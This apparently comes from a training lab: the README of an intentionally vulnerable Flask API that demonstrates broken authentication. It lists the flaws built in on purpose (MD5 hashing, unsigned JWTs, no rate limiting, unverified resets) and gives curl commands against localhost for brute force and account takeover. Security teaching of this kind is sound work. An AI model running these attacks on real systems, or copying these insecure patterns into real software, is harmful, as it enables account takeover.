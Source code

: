 # Insecure Flask API - Broken Authentication Demo

⚠️ **WARNING: This application is intentionally vulnerable and should NEVER be used in production!**

This Flask application demonstrates various authentication vulnerabilities from OWASP API Security Top 10 - API2:2023 Broken Authentication.

## Vulnerabilities Demonstrated

### 1. **No Rate Limiting** 
- Login endpoints have no rate limiting
- Enables brute force attacks
- GraphQL-style batch requests bypass any potential rate limiting

### 2. **Weak Password Policies**
- Accepts weak passwords (minimum 3 characters)
- No complexity requirements
- Default users have weak passwords (`password`, `123456`)

### 3. **Insecure Password Storage**
- Uses MD5 hashing (cryptographically broken)
- No salt used for password hashing
- Vulnerable to rainbow table attacks

### 4. **JWT Token Vulnerabilities**
- Uses `"alg":"none"` (no signature verification)
- Weak signing secret (`weak_secret`)
- No token expiration validation
- Tokens don't expire

### 5. **Sensitive Operations Without Verification**
- Email updates don't require password confirmation
- Critical account changes without re-authentication

### 6. **Credentials in URL Parameters**
- `/login_url` endpoint accepts credentials in GET parameters
- Credentials logged in server logs and browser history

### 7. **Insecure Password Reset**
- Password reset without proper email verification
- No confirmation tokens or secure workflows

## Installation & Setup

```bash
# Install dependencies
pip install flask pyjwt

# Run the insecure application
python insecure_api.py
```

The application will start on `http://localhost:5000`

## Test Users

| Username | Password | Email |
|----------|----------|-------|
| admin    | password | admin@example.com |
| victim   | 123456   | victim@example.com |

## API Endpoints

### Authentication
- `POST /login` - Login with credentials
- `POST /batch_login` - Batch login requests (bypasses rate limiting)
- `GET /login_url?username=X&password=Y` - Login via URL parameters

### Account Management
- `PUT /update_email` - Update email without password confirmation
- `POST /reset_password` - Reset password without verification

### Utility
- `GET /health` - Health check endpoint

## Attack Examples

### 1. Brute Force Attack (No Rate Limiting)
```bash
# Single requests - no rate limiting
for i in {1..100}; do
  curl -X POST http://localhost:5000/login \
    -H "Content-Type: application/json" \
    -d '{"username":"victim","password":"password'$i'"}'
done
```

### 2. Batch Attack (GraphQL-style)
```bash
curl -X POST http://localhost:5000/batch_login \
  -H "Content-Type: application/json" \
  -d '[
    {"username":"victim","password":"password"},
    {"username":"victim","password":"123456"},
    {"username":"victim","password":"qwerty"},
    {"username":"victim","password":"admin"},
    {"username":"victim","password":"letmein"}
  ]'
```

### 3. Account Takeover via Email Change
```bash
# Get a token first (with weak validation)
TOKEN=$(curl -X POST http://localhost:5000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"victim","password":"123456"}' | jq -r '.token')

# Change email without password confirmation
curl -X PUT http://localhost:5000/update_email \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"email":"attacker@evil.com"}'

# Now reset password using the new email
curl -X POST http://localhost:5000/reset_password \
  -H "Content-Type: application/json" \
  -d '{"email":"attacker@evil.com","new_password":"hacked123"}'
```

### 4. Credentials in URL
```bash
# Credentials will be logged in server logs and browser history
curl "http://localhost:5000/login_url?username=admin&password=password"
```

### 5. JWT Token Manipulation
```bash
# Get a token
TOKEN=$(curl -X POST http://localhost:5000/login \
  -H "Content-Type: application/json" \
  -d '{"username":"victim","password":"123456"}' | jq -r '.token')

# The token uses "alg":"none" and can be manipulated
# Decode the token to see it's unsigned
echo $TOKEN | base64 -d
```

## Security Issues Summary

1. **Credential Stuffing** - No protection against automated attacks
2. **Brute Force** - No account lockout or rate limiting
3. **Weak Passwords** - Minimal password requirements
4. **Insecure Storage** - MD5 hashing without salt
5. **Token Issues** - Unsigned JWTs, no expiration
6. **Missing Re-authentication** - Sensitive operations without password confirmation
7. **Information Disclosure** - Credentials in URLs and logs
8. **Weak Cryptography** - Broken hashing algorithms

## Educational Purpose

This application is designed for:
- Security training and awareness
- Penetration testing practice
- Understanding authentication vulnerabilities
- Demonstrating why secure coding practices matter

## Next Steps

After exploring this vulnerable application, examine the secure implementation to understand proper authentication security measures.

---
**Remember: NEVER deploy this code to production or any publicly accessible environment!**